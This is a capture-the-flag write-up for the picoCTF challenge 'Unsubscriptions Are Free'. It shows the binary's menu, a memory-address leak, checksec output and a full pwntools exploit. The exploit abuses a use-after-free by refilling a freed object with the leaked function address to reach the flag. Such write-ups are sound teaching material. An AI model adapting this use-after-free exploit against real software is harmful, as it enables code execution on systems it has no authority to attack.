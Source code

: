 # Unsubscriptions Are Free (needs to be updated)
> challenge description: Check out my new video-game and spaghetti-eating streaming channel on Twixer! program and get a flag. source nc mercury.picoctf.net 50361

given a: binary vuln, source code vuln.c

## running the binary locally

```console
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Unsubscriptions_Are_Free]
└──╼ $./vuln
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
S
OOP! Memory leak...0x80487d6
Thanks for subsribing! I really recommend becoming a premium member!
```

checking binary security settings

```console
┌─[user@parrot]─[~/ctfs/picoCTF/binary_exploitation/Unsubscriptions_Are_Free]
└──╼ $checksec vuln
[*] '/home/user/ctfs/picoCTF/binary_exploitation/Unsubscriptions_Are_Free/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
### final poc

```python
#!/usr/bin/env python3

from pwn import *
from enum import Enum

exe = ELF("./vuln")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("mercury.picoctf.net", 50361) # nc mercury.picoctf.net 50361

    return r


def main():
    r = conn() 
    r.recv()
    r.sendline(b'S\n')    # subscribe to get the leaked address of haha function
    r.recvuntil("(e)xit\n")
    leaked_line = r.recvlineS()
    leaked = int(leaked_line.replace("OOP! Memory leak...", "").strip(), 16)
    
    log.info("Leaked address: {}".format(hex(leaked)))
    r.sendline(b'I\n')    # free()
    r.sendlineafter(b"You're leaving already(Y/N)?\n", b"Y")
    r.recvline()
    

    payload = p32(leaked) + p32(0)
    log.info(f"Payload created: {payload}")

    r.sendline(b'l\n')    # leave a message -> malloc(8)
    r.sendlineafter(b'try anyways:\n',payload)
 

    log.success(r.recvlineS())


if __name__ == "__main__":
    main()

```
